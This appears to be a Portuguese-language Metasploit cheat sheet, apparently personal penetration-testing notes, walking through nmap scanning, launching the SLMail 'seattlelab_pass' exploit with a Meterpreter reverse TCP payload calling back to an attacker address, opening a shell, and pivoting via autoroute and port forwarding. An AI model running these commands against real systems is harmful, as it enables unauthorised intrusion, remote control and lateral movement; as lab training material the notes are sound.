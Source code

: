 # MetaSploit Framework

Ferramenta desenvolvida pela rapid7.com para auxiliar na criação e utilização de exploits.

Iniciando MSF:
service postgresql start
msfconsole

Comando de ajuda:
msf > help

Verificando a conexão com o banco de dados:
msf > db_status

Escaneamento de alvo salvando as informações no DB:
msf > db_nmap -A 172.16.1.4

Importando arquivo XML do NMAP:
nmap -v -A 172.16.1.5 -oX host5.xml
msf > db_import host5.xml

Listagem dos hosts:
msf > hosts

Verificando vulnerabilidade nos hosts:
msf > vulns

Listagem de serviços:
msf > services

Buscando exploit:
msf > search slmail

Usando exploit:
msf > use exploit/windows/pop3/seattlelab_pass

Ver informações do exploit:
msf exploit(seattlelab_pass) > info

Setando parâmetros no exploit:
msf exploit(seattlelab_pass) > show options
msf exploit(seattlelab_pass) > set RHOST 172.16.1.4
msf exploit(seattlelab_pass) > show options

Verificando payloads disponíveis:
msf exploit(seattlelab_pass) > show payloads

Setando payload para ser utilizado:
msf exploit(seattlelab_pass) > set payload windows/meterpreter/reverse_tcp
msf exploit(seattlelab_pass) > show options
msf exploit(seattlelab_pass) > set LHOST 172.20.0.2
msf exploit(seattlelab_pass) > set LPORT 4444
msf exploit(seattlelab_pass) > show options

Executando exploit:
msf exploit(seattlelab_pass) > exploit
meterpreter > ipconfig

Verificando comandos no meterpreter:
meterpreter > help

Abrindo o shell:
meterpreter > shell

Colocando meterpreter em segundo plano:
meterpreter > background

Retomando meterpreter:
msf > session -i 4

Exibindo módulos auxiliares:
msf > show auxiliary

Utilizando um módulo auxiliar:
msf > use auxiliary/scanner/smb/smb_version
msf > show options
msf > set RHOSTS 172.16.1.5
msf > run

Criando rota da rede do alvo para a nossa máquina:
meterpreter > run autoroute -s 192.168.0.0/24

Criando redirecionamento de porta do alvo para a nossa máquina:
meterpreter > portfwd add -l 3389 -p 3389 -r 192.168.0.101
